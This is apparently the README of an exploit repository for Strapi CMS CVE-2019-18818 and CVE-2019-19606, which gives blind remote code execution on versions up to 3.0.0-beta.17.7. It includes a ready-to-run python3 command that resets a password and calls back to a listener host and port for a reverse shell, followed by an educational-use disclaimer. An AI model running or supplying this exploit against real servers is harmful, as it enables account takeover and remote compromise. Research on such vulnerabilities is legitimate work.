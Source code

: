 # Project Title

Strapi CMS CVE-2019-18818 and 19606 / Authenticated Blind Remote Code Execution

## Description

Blind Remote Code Execution of Strapi CMS Version 3.0.0-beta.17.7 and earlier to get reverse shell

### Executing program

* Using python3
```
python3 strapi_exp.py -t http://strapi.hack/ -e fake@email.com -p new_password -lhost 127.0.0.1 -lport 9001
```

## Help

Help prompt
```
python3 strapi_exp.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.